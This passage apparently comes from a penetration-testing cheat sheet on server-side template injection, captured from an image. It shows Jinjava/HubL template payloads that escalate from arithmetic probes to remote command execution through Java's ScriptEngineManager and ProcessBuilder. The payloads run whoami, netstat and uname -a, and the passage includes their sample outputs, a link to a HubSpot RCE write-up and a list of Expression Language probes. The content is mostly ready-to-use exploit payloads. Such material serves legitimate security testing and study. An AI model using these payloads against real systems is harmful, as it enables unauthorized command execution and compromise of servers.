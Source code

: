 ```java
//It was also possible to call methods on the created object by combining the







{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
**Mais informações**

* [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)

### Expression Language - EL (Java)

* `${"aaaa"}` - "aaaa"
* `${99999+1}` - 100000.
* `#{7*7}` - 49
* `${{7*7}}` - 49
* `${{request}}, ${{session}}, {{faceContext}}`
